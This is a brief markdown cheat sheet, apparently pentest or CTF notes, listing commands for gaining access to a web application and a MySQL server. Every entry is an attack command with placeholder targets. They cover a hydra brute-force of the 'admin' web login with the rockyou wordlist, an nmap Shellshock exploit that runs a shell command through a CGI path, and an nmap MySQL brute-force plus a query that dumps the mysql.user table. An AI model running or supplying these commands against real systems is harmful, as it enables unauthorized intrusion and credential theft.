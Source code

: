# Access

[WebApp](#webapp)

[MySQL](#mysql)

## WebApp

**brute-force password for user 'admin' via hydra:**
```
hydra -s <port> -I -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-post-form '/index.php:tg=login&referer=index.php&user=^USER^&password=^PASS^&submit_login=Submit:F=bad+passowrd' -vV
```

**Shellshock Exploit:**
```
nmap --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls -p80 <ip>
```

## MySQL

**brute-force via nmap:**
```
nmap --script mysql-brute -p 3306 <ip>
```

**fire a query via nmap:**
```
nmap --script mysql-query --script-args "mysql-query.query='SELECT host, user FROM mysql.user', mysql-query.username=admin, mysql-query.password=admin"  -p3306 <ip>

- or -

nmap --script mysql-query --script-args-file $(pwd)/mysql-query-args.txt -p3306 <ip>
```
